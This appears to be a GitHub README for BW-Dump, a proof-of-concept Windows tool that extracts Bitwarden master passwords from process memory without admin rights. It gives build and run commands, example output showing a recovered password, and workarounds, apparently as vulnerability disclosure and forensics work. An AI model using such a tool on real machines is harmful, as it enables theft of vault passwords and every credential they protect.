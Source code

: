 # BW-Dump

A proof-of-concept tool that extracts the master password from a locked Bitwarden vault (must be unlocked at least once), only tested and supported on Windows 10 and 11.

## Update (24/02/23)

![bitwarden-desktop-password-recovery-latest](https://user-images.githubusercontent.com/9108334/221217481-80bd8e11-95d5-45d7-8ad3-15cb12e7e53f.png)

Fixed a major issue with search pattern. A new and improved regular expression and logic has been implemented. This helps identify strings that could potentially be the master password, or at least parts of it. Added a `-v` verbose option, which shows all strings that match the regex pattern. The tool has been tested and confirmed working on the latest version of Bitwarden Desktop (2023.2.0) on Windows 10 and 11.

Example output:

```
[+] Searching for processes...
[+] PID: 5468
[+] EXEName: Bitwarden.exe
[+] CMDLine: "C:\Users\Tester\AppData\Local\Programs\Bitwarden\Bitwarden.exe" --type=renderer --user-data-dir="C:\Users\Tester\AppData\Roaming\Bitwarden" --app-path="C:\Users\Tester\AppData\Local\Programs\Bitwarden\resources\app.asar" --no-sandbox --no-zygote --first-renderer-process --lang=en-GB --device-scale-factor=1 --num-raster-threads=1 --renderer-client-id=4 --time-ticks-at-unix-epoch=-1677156036809828 --launch-time-ticks=36228907657 --mojo-platform-channel-handle=2540 --field-trial-handle=1816,i,6300308413610308636,7516158819106443187,131072 --disable-features=SpareRendererForSitePerProcess,WinRetrieveSuggestionsOnlyOnDemand /prefetch:1
[+] Searching PID memory (5468)
[+] Found initial pattern
[+] Memory region: 0x35d40040c000 - 0x35d400434000
[+] Region size: 0x28000
[+] No. of hits: 40

all and (min-width: 241px)and (max-width: 480px)
all and (min-width: 481px)and (max-width: 768px)P
cdk-virtual-scroll-orientation-horizontal5
cdk-virtual-scroll-orientation-vertical
c55b7254_0a77_4262_ae9b_23e2a1943d05
attribution-reporting
...
ALL those flying cats
...
cdk-high-contrast-active
http://www.w3.org/2000/svg-pristine
all and (max-width: 240px)
cdk-overlay-containergling
axbufferpx
Zone:defineProperty
truncate-box
truncate
detaill-scroll-item
Zone:FileReader
lg tw-text-muted
[+] ------- Complete ---------
[+] ALL those fl!
[+] ALL those flying c
[+] ALL those flying cat
```

Tested on Bitwarden Desktop version `2023.2.0`.

## Update (21/09/22)
A recent security update (not sure which one exactly) has fixed the issue on the web browser extension. ~~However, on versions `v2022.6.0` and below it should still work.~~ No longer supported.

## Demo
A short demo of using bw-dump with Microsoft Edge and the Bitwarden browser extension.

https://user-images.githubusercontent.com/9108334/191377244-f0e9a123-e4f0-43b0-90b5-697fc005ae7b.mov

## Building
**Warning: Windows Defender may report the compiled binary as malicious!**

To build on a system other than Windows:
```bash
env GOOS=windows GOARCH=amd64 go build -ldflags="-s -w"
```

Otherwise, run `go build -ldflags="-s -w"` which builds a stripped binary.

## Running
Simply build and execute the binary. It does NOT require admin rights. Make sure, a Chromium browser is running and the Bitwarden extension is installed. In addition, the vault needs to be unlocked at least once. After which, the master password will be stored in memory for a period of time. 

You can also pass the `-d` option to dump memory regions when a pattern is found. For each result, a filename `dump-pid-<PID>-<MEM-REGION>.hex` is created in the current working directory.

**Example Output**
```bash
PS C:\Users\Tester\dev\go\bw-dump> bw-dump.exe

 888 88b, Y8b Y8b Y888P    888 88e
 888 88P'  Y8b Y8b Y8P     888 888b  8888 8888 888 888 8e  888 88e 
 888 8K     Y8b Y8b Y  888 888 8888D 8888 8888 888 888 88b 888 888b
 888 88b,    Y8b Y8b       888 888P  Y888 888P 888 888 888 888 888P
 888 88P'     Y8P Y        888 88"    "88 88"  888 888 888 888 88" 
                                                           888     
            Created by @NazMarkuta at Red Maple            888     
    
BW-Dump is a Windows forensics tool that extracts Bitwarden master passwords from locked vaults
(must be unlocked at least once) by reading process memory using Windows API functions which
searches for magic byte patterns. The tool doesn't require any special (admin) permissions.

Now supports Bitwarden Desktop App (v2023.1.1) running on Windows 10 or 11. The tool (may) 
still support older Bitwarden Chromium extension versions (v2022.6.0) and below.

[+] Searching for processes...
[+] PID: 4228
[+] EXEName: Bitwarden.exe
[+] CMDLine: "C:\Users\Tester\AppData\Local\Programs\Bitwarden\Bitwarden.exe" --type=renderer --user-data-dir="C:\Users\Tester\AppData\Roaming\Bitwarden" --app-path="C:\Users\Tester\AppData\Local\Programs\Bitwarden\resources\app.asar" --no-sandbox --no-zygote --first-renderer-process --lang=en-GB --device-scale-factor=1 --num-raster-threads=1 --renderer-client-id=4 --time-ticks-at-unix-epoch=-1675782335888921 --launch-time-ticks=4007177473 --mojo-platform-channel-handle=2508 --field-trial-handle=1792,i,3673052334935287551,6849534636950916074,131072 --disable-features=SpareRendererForSitePerProcess,WinRetrieveSuggestionsOnlyOnDemand /prefetch:1

[+] Searching PID memory (4228)
[+] Found pattern at MemBaseAddr (0xb0800554000)
[+] Found password prefix bytes at offset (0xc121)
[!] Invalid offset size, skipping...

[+] Found pattern at MemBaseAddr (0xb0800a8c000)
[+] Found password prefix bytes at offset (0x1104)
[!] Invalid offset size, skipping...

[+] Found pattern at MemBaseAddr (0xb08014bc000)
[+] Found password prefix bytes at offset (0x62aa)
[+] Password recovered: "SUPER-SECURE-password8"

PS C:\Users\Tester\dev\go\bw-dump> 
```

## Is there a solution or workaround?
There are two ways (probably more) the master password can be trashed from memory:
1. Once locked, enter any random WRONG password. This should replace your password stored in memory.
2. Terminate the `Bitwarden.exe` process which Windows should do some garbage collection.

## What's next?
- Create a Volaility3 plugin that can extract master passwords from saved memory dumps.
